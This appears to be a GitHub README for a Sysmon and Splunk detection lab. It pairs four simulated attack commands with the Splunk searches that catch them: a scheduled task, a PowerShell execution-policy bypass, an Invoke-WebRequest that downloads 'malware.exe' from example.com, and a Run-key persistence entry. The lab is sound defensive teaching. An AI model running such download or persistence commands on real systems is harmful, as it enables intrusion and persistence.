

# Sysmon-Splunk-detection

This repo contains hands-on detection labs using Splunk, Sysmon, and Windows logging. I would run all of these simulations in a VM that I built and then took screenshots of the resulting logs in Splunk.

## Tools Used
- Sysmon (with config)
- Splunk
- Windows VM (via VMware)

## Attack 1 – Suspicious Scheduled Task Creation
**Command used:**

schtasks /create /sc minute /mo 5 /tn "Updater" /tr "calc.exe" 

**Detection Method in Splunk**
index=* CommandLine="*calc.exe*"

## Attack 2 – Suspicious PowerShell Activity**
**Command used:**

-NoProfile -ExecutionPolicy Bypass -Command "Write-Output 'This is a test of suspicious PowerShell activity'"

**Detection Method in Splunk**
index=* EventCode=1 Image="*powershell.exe" NOT Image="*splunk-powershell.exe"

## Attack 3 – Spotting an Invoke Web-Request**
**Command used:**

-NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest http://example.com/malware.exe -OutFile C:\users\Public\malware.exe"

**Detection Method in Splunk**
 index=* sourcetype=WinEventLog* powershell "Invoke-WebRequest"

## Attack 4 – Registry Key Persistence**
**Command used:**

New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Malware" -Value "calc.exe"

**Detection Method in Splunk**
index=* sourcetype=WinEventLog* EventCode=13 Malware

